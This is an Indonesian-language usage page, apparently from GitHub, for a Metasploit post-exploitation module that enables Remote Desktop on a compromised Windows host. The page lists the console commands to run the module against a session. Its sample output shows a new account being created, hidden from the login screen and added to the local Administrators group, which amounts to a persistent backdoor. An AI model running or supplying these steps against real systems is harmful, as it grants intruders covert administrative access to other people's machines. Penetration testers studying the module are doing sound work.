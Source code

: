 # enable_rdp

Modul ini mengaktifkan Layanan `Remote Desktop` (`RDP`). Modul ini menyediakan opsi untuk membuat akun dan mengonfigurasinya menjadi anggota grup Local Administrators dan Remote Desktop Users. Modul ini juga dapat meneruskan port `3389/tcp` dari target.

## Penulis
- Carlos Perez carlos_perez@darkoperator.com

## Platform
- `Windows`
  
## Cara Penggunaan di Metasploit

```
use post/windows/manage/enable_rdp
set ENABLE true
set FORWARD false
set LPORT 3389
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: fixploit03 with Password: fixploit03
[*] 	Adding User: fixploit03 to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: fixploit03 to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20250516221529_default_192.168.1.52_host.windows.cle_571851.txt
[*] Post module execution completed
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/post/windows/manage/enable_rdp/)
